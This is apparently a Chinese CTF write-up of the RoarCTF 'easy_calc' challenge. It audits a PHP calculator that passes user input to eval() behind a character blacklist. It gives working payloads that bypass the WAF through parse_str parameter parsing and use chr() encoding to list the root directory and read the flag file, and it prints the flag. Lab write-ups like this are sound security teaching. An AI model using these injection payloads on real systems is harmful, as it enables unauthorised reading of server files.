 ```yaml
---
title: buuoj刷题记录2
date: 2019-12-26 20:16:12
tags:
 - ctf
 - Roarctf
 - web
 - buuctf
categories: 
 - 刷题记录
---
```


## [Roarctf]easy_calc

### 0x00 基础

php内置读取文件内容函数

```
file_get_contents()
readfile()
file()
```

目录扫描函数

```
scandir()
```

<!--more-->

字符转换函数

```
hex2bin("979797")->"aaa"
chr(95)->"a"
```

输出函数

```
var_dump()
printf()
```

`parse_str`函数通常被自动应用于`get`、`post`请求和`cookie`中。使用`parse_str`解析规则绕过waf

### 0x01 分析

查看源码，发现calc.php

```php
<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
</script>
```

进入calc.php,进行代码审计。

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {    
                        die("what are you want to do?");//如果包含黑名单中的字符，程序退出
                }
        }
        eval('echo '.$str.';');
}
?> 
```

### 0x02 开始操作

传入`1+1` 显示`403 Forbidden` 传入`1%2b1`就可以。必须传入url编码后的。查看`phpinfo()`，也是`403 Forbidden`，利用PHP自动解析函数`parser_str()`绕过，详细介绍查看[参考连接](https://www.freebuf.com/articles/web/213359.html)。

扫描目录使用`scandir()`因为`/ '  "`被过滤无法直接使用`/`，使用`chr()`转换payload= `?+num=print_r(scandir(chr(47)))`

```
Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => boot [5] => dev [6] => etc [7] => f1agg [8] => home [9] => lib [10] => lib64 [11] => media [12] => mnt [13] => opt [14] => proc [15] => root [16] => run [17] => sbin [18] => srv [19] => start.sh [20] => sys [21] => tmp [22] => usr [23] => var ) 1
```

使用PHP内置函数获`file_get_contents()`获取文件内容payload=`?+num=printf(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))`

```
flag{d09c31b7-d1a1-45a2-b35b-65452a1335ef} 43
```

